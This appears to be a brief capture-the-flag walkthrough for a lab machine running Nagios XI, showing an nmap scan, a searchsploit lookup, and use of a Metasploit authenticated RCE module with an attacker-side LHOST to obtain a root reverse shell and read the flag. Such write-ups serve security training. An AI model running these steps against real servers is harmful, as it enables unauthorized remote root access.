 # Montioring 

### Recon

## portcsanning

as usual we begin with a portscan using the following command:

```nmap -sV -sC -P0 <HOST>```

![Alt text](/posts/res/mon1.png)

so from the result of our scan we can see that we have several ports open on our target system.

- ### port ***80(http)***

- ### port ***25(smtp)***

- ### port ***22(ssh)***

- ### port ***443(http- Apache)***

- ### port ***389(ldap)***

now since we have both port 80 and 443 runnng an apache web server lets navigate to the webpage and see what we have.


![Alt text](/posts/res/mon2.png)


we can see a button which says ***Click the link below to get started using Nagios XI.***. once we do that we can now see a login page load up.


![Alt text](/posts/res/mon3.png)

so i tried out some various default login creds but they didnt seem to work.

well, lets try to use search for an exploit of some sort on using the searchsploit utility. 


![Alt text](/posts/res/mon4.png)

we can load up metasploit using the following command: 

```msfconsole```

```search nagios```


![Alt text](/posts/res/mon5.png)

```use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce```

- ```set RHOST <machine IP> ```

- ```set LHOST <attack-machine-ip>```

- ```set password admin```

- ```run```

![Alt text](/posts/res/mon6.png)

now we have gained a meterpreter shell let's drop into a regular shell.

command: ```shell```

to upgrade to a better abd stable shell we use the following command:

```python -c "import pty; pty.spawn('/bin/bash')"```

![Alt text](/posts/res/mon7.png)

luckly we gained access as the root user. to locate the flag we navigate to ***/root*** directory and then read the flag using the following command:

```cd /root```

```cat proof.txt```


![Alt text](/posts/res/mon8.png)



